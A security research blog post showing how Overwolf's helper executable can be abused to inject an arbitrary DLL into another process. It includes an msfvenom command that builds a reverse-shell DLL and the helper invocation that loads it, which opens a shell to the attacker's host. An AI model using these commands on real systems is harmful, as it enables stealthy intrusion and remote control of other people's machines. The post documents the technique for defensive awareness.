 ```yaml
---

layout: post

title: OverWolfHelperx64 - DLL Injection LOLBAS

gh-badge:

- star

- fork

- follow

tags:

- Windows

- Cyber Security

- Penetration Testing

comments: true

published: true

date: '2021-09-18'

---
```


Hello guys gals and non binary pals, today we're going to be looking at a program called OverWolf. Overwolf is a piece of software backed by Curse Forge, Intel, Logitech, Twitch, Ubisoft and a bunch of other companies that is designed to add extensions (or Mods) onto games. Some examples might include an overlay that shows your health or ammo count in a different style. But yeah -- you get the gist of it. It's a pretty interesting piece of software to analyze.

We're going to be using a pretty standard setup of [ProcMon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from SysInternals and [ProcessHacker](https://processhacker.sourceforge.io/downloads.php).

Overwolf can be downloaded from the following URL:
(https://www.overwolf.com/apps/)[https://www.overwolf.com/apps/]

It's a pretty standard install, so I'm not going to into too much detail on the install process. Just keep clicking "Next" until you see OverWolf finish installing.

### Overwolf Analysis

First we're going to open up ProcMon, and add a Process Filter -- we will be filtering on the Command Line and ensure it contains the string Overwolf. This will likely give us the best results.

![[https://blog.spookysec.net/img/Pasted image 20210918140933.png]](https://blog.spookysec.net/img/Pasted image 20210918140933.png)

Afterwards, click "Add" and "Apply". Next up, pop on open Process Hacker and use the "Search" function to specify Overwolf. I've split my screens for ease of use:

![[https://blog.spookysec.net/img/Pasted image 20210918141142.png]](https://blog.spookysec.net/img/Pasted image 20210918141142.png)

Next, we're going to launch Overwolf and see what happens.

If setup correctly, we should see a lot of new processes spawn in Process Hacker and ProcMon should see a whole bunch of new WindowsAPI functions get called as well as Programs get launched.

![[https://blog.spookysec.net/img/Pasted image 20210918141331.png]](https://blog.spookysec.net/img/Pasted image 20210918141331.png)

The Process Hacker window was fairly standard -- there was one important thing to note, the Updater spawned as NT AUTHORITY\SYSTEM. This is a very important thing to note if you're developing a Local Privilege Escalation exploit. If you capture the traffic with Wireshark and can decipher the upgrade protocol, you might be able to develop a LPE exploit. I'm not going to dig through that rabbit hole today though :).

Here, we are primarily looking for DLLs or Programs that get loaded as part of launching OverWolf. Just browsing through the running processes, one in particular stood out to me, OverWolfHelper/OverWolfHelper64.exe, it queried information on a process name "Audiodg.exe", a native windows binary. I found this particular one in ProcMon, however, it's also possible to locate it over in Process Hacker.

![[https://blog.spookysec.net/img/Pasted image 20210918144412.png]](https://blog.spookysec.net/img/Pasted image 20210918144412.png)
*Located in ProcMon*

![[https://blog.spookysec.net/img/Pasted image 20210918144523.png]](https://blog.spookysec.net/img/Pasted image 20210918144523.png)
*Located In Process Hacker*

Interestingly enough it appears like OverwolfHelper takes two arguments -- path and pid. These (to me) are some pretrty interesting arguments to take, especially when the path is pointing to a DLL.

```
"C:\Program Files (x86)\Common Files\Overwolf\0.178.0.16\OverwolfHelper64.exe" "path=C:\Program Files (x86)\Overwolf\0.178.0.16\OWExplorerLauncher.dll pid=1596"
```

Doing some basic analysis on this, we can see that the PID actually points to the parent Overwolf process. Interestingly enough, it (OWExplorerLauncher.dll) doesn't appear to be loaded. However, in OverwolfHelper.exe it does.

![[https://blog.spookysec.net/img/Pasted image 20210918193328.png]](https://blog.spookysec.net/img/Pasted image 20210918193328.png)

### Injecting a DLL

Let's try injecting a DLL with OverWolfHelper and see how it goes. On Kali, we're going to generate a DLL using MSFVenom.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=443 -f dll -o injectme.dll
```

![[https://blog.spookysec.net/img/Pasted image 20210918202742.png]](https://blog.spookysec.net/img/Pasted image 20210918202742.png)

After transporting the binary over, we're going to run the modified command:

```
"C:\Program Files (x86)\Common Files\Overwolf\0.178.0.16\OverwolfHelper64.exe" "path=C:\Users\Administrator\Downloads\injectme.dll pid=1596"
```


![[https://blog.spookysec.net/img/Pasted image 20210918203111.png]](https://blog.spookysec.net/img/Pasted image 20210918203111.png)

And checking over in our Terminal, it appears we have gotten a shell!

![[https://blog.spookysec.net/img/Pasted image 20210918203200.png]](https://blog.spookysec.net/img/Pasted image 20210918203200.png)

To figure out what's going on behind the scenes, we can pivot back over to ProcessHacker and go over to the "Network" tab and filter for our IP Address (192.168.0.198). It appears that it indirectly calls rundll32.exe

![[https://blog.spookysec.net/img/Pasted image 20210918205736.png]](https://blog.spookysec.net/img/Pasted image 20210918205736.png)

It appears that rundll32.exe spawned a child process, cmd.exe which would likely be a fairly large indicator of malware. I've created a directory called "notmalware" in my Netcat session and CD'd into that folder

![[https://blog.spookysec.net/img/Pasted image 20210918210210.png]](https://blog.spookysec.net/img/Pasted image 20210918210210.png)

It appears that the child process is indeed our Reverse Shell.

![[https://blog.spookysec.net/img/Pasted image 20210918210157.png]](https://blog.spookysec.net/img/Pasted image 20210918210157.png)

### Conclusion

It appears that OverwolfHelper (when it loads a DLL) runs rundll32 -- interestingly, our DLL isn't mentioned as any argument.

![[https://blog.spookysec.net/img/Pasted image 20210918210655.png]](https://blog.spookysec.net/img/Pasted image 20210918210655.png)

